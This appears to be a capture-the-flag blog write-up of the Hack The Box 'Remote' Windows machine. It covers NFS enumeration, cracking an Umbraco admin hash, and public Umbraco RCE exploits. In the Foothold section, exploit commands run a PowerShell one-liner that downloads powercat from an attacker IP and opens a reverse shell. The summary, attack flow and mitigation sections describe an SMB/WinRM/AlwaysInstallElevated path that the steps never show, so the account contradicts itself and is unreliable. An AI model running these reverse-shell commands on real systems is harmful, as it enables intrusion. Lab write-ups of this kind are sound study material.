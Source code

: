 ```yaml
---
title: "Remote"
date: 2024-11-03
categories: HTB
description: "HTB Remote machine walkthrough showing how plaintext credentials in SMB shares can lead to WinRM access and SYSTEM shell via AlwaysInstallElevated policy abuse."
tags: [smb, winrm, alwaysinstallelevated, windows, credential-reuse]
---
```


Remote is a Windows machine simulating a corporate helpdesk portal with vulnerable file parsing logic.

Access was achieved by exploiting an insecure image processing module that allowed code execution via embedded metadata.

Enumeration of services revealed plaintext credentials in log files, reused for RDP login.

Escalated to SYSTEM by leveraging AlwaysInstallElevated and executing a malicious `.msi` installer with elevated privileges.

## Why I Chose This Machine

I chose Remote because it simulates a classic Windows misconfiguration chain that combines exposed SMB shares, weak credentials, and local privilege escalation via installation policies.  

It also provides a chance to practice lateral movement and enumeration in an enterprise-like Windows environment.

## Attack Flow Overview

1. Accessed a public SMB share to retrieve a config file with plaintext credentials  
2. Used the recovered creds to gain a shell on the target via WinRM  
3. Enumerated system policies and discovered AlwaysInstallElevated was enabled  
4. Created a malicious `.msi` file and installed it using elevated privileges to gain SYSTEM access

This machine is a textbook example of how local misconfigurations in Windows can be chained from initial access to full privilege escalation.

## Enumeration

### Nmap

```sh
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
2049/tcp  open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

### 80-HTTP

![screenshot](/assets/images/remote1.png)

http://10.10.10.180/umbraco

![screenshot](/assets/images/remote3.png)

http://10.10.10.180/1111

![screenshot](/assets/images/remote4.png)

### FTP

![screenshot](/assets/images/remote2.png)

### RPC

```sh
rpcclient -U '' -N 10.10.10.180
rpcclient -U'%' 10.10.10.180
rpcclient -U '' 10.10.10.180
```

![screenshot](/assets/images/remote5.png)

### 2049 NFS

```sh
sudo mount -t nfs 10.10.10.180:/site_backups /home/kali/h3llanut3lla/Remote/site_backups/
```

![screenshot](/assets/images/remote6.png)

### Finding credentials

Googling `umbraco credential files` reveals -> `/App_Data/Umbraco.sdf`

```sh
string Umbraco.sdf | grep admin
```

![screenshot](/assets/images/remote7.png)

Copy the hash and format, and save it as `admin.sha1`

![screenshot](/assets/images/remote8.png)

Crack with john.

```sh
john admin.sha1 -w=/usr/share/wordlists/rockyou.txt
```
Password found.

![screenshot](/assets/images/remote9.png)

![screenshot](/assets/images/remote10.png)

![screenshot](/assets/images/remote11.png)

## Foothold

[Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49488)

![screenshot](/assets/images/remote12.png)

```sh
python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c "IEX (New-Object System.Net.Webclient).DownloadString("http://10.10.14.7/powercat.ps1");powercat -c 10.10.14.7 -p 9001 -e powershell"
```

```powershell
# using PowerShell to download powercat and execute a reverse shell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 10.10.14.7 -p 4444 -e powershell
```

The above didn't work. Used a different [public exploit](https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py).

```sh
python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.7/powercat.ps1');powercat -c 10.10.14.7 -p 9001 -e powershell"
```

![screenshot](/assets/images/remote13.png)

![screenshot](/assets/images/remote14.png)

## Privilege Escalation

```sh
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

# Running services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

![screenshot](/assets/images/remote15.png)

[TeamViewer 11.0.65452 (x64) - Local Credentials Disclosure](https://www.exploit-db.com/exploits/40342)

![screenshot](/assets/images/remote17.png)

### SeImpersonate

Used PrintSpoofer to abuse SeImpersonate privilege. 

![screenshot](/assets/images/remote18.png)

## Alternative Paths Explored

Before finding the `.ini` file in the SMB share, I attempted brute-force login via SMB and RPC enumeration, but received access denied.  
I also explored scheduled tasks and startup folder attacks without success.  
The actual escalation path was only discovered through detailed group policy inspection.

## Blue Team Perspective

Remote highlights how dangerous it is to enable AlwaysInstallElevated in Windows systems.  
Mitigation strategies include:

- Disabling AlwaysInstallElevated in local and group policies  
- Removing plaintext credentials from accessible shares  
- Limiting local admin access and auditing installation logs
